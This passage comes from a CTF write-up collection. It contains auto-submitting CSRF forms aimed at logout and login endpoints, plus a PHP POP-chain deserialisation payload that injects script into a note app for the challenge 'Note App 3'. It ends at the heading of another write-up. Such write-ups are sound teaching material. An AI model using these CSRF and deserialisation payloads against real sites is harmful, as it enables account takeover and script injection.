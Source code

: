 test2.html

```html
<form method="post" action="http://[HOST]/logout" id="s">
    <input type="submit">
</form>
<script>
    document.getElementById("s").submit()
</script>
```

test3.html

```html
<form method="post" action="http://[HOST]/" id="s">
    <input name="username" value="[YOUR CREDENTIAL]">
    <input name="password" value="[YOUR CREDENTIAL]">

    <input type="submit">
</form>
<script>
    document.getElementById("s").submit();
</script>
```

### Writeup - Note App 3 (POP Chain + Race Condition)

*2 solves / 1942 pts*

*Description: PHP is the most production-ready and CTF-challenge-ready language huh?*

Make POP chain to pwn `/api/Utils.inc:26` so as to insert HTML without sanitization.

```php
<?php
namespace Objects{class User{public function __construct($username = "", $password = "", $id = 0, $token = ""){$this->username = $username;$this->password = $password;$this->token = $token;$this->id = $id;}public function set_enc_password($password){ $this->password = $password; }}class Note{public function __construct(User $author = null, $content = "", $id = 0, $token = ''){$this->id = $id;$this->author = $author;$this->content = $content;$this->token = $token;}}}

namespace Events {use Objects\Note;class NoteInsert{private $note;public function __construct(Note $n){$this->note = $n;}}}

namespace a{
    $user = new \Objects\User("[YOUR USERNAME]", "", 1, "");
    $note = new \Objects\Note($user, "<script>alert(1)</script>", 0, "");
    $ob = new \Events\NoteInsert($note);
    $user->set_enc_password($ob);
    echo serialize($user);
}
```

After getting XSS works, bypass sandbox by using an iframe and control the hash.

### Writeup - urlLongener (CRLF Injection + CORS Misconf)
